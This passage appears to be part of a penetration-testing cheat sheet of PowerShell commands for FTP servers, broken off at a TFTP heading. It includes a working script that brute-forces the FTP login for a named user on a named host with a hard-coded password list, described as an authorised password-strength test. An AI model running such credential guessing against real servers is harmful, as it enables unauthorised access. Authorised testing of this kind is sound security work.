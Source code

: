 **Example:**

Download /remote/directory/file.txt from ftp.snowcapcyber.com to C:\local\downloaded_file.txt.

---

**Script/Command:**

```powershell
$ftpServer = "ftp://ftp.snowcapcyber.com"
$ftpUsername = "ajcblyth"
$passwords = "password1", "password123", "ftpuserpass", "secureftp"
$webClient = New-Object System.Net.WebClient
$failedAttempts = 0
foreach ($password in $passwords) {
    $webClient.Credentials = New-Object System.Net.NetworkCredential($ftpUsername, $password)
    try {
        $webClient.UploadFile("$ftpServer/test.txt", "C:\temp\test.txt")
        Write-Host "Password '$password' worked!"
        break
    } catch {
        $failedAttempts++
    }
}
if ($failedAttempts -eq $passwords.Count) {
    Write-Host "No valid password found."
}
```

**Description:**

Tests password strength by attempting to brute-force authentication with a list of passwords (requires authorization).

**Example:**

Test passwords password1, password123, ftpuserpass, and secureftp for ajcblyth on ftp.snowcapcyber.com.

---

**Script/Command:**

```powershell
Test-NetConnection -ComputerName ftp.snowcapcyber.com -Port 21
```

**Description:**

Checks if the FTP server is accessible on port 21 to assess firewall and access control configurations.

**Example:**

Verify connectivity to ftp.snowcapcyber.com on the default FTP port.

---

### TFTP Server

